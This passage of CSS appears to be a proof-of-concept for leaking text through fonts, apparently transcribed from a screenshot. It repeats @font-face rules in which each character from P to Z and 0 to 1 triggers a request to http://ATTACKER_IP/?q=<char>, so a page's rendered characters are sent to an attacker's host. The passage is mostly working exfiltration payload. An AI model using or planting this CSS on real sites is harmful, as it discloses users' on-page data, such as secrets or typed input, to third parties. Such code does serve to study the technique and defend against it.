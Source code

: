     src: url(http://ATTACKER_IP/?q=P);
    unicode-range: U+0050;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Q);
    unicode-range: U+0051;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=R);
    unicode-range: U+0052;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=S);
    unicode-range: U+0053;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=T);
    unicode-range: U+0054;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=U);
    unicode-range: U+0055;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=V);
    unicode-range: U+0056;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=W);
    unicode-range: U+0057;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=X);
    unicode-range: U+0058;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Y);
    unicode-range: U+0059;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Z);
    unicode-range: U+005A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=0);
    unicode-range: U+0030;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=1);
    unicode-range: U+0031;
}
@font-face {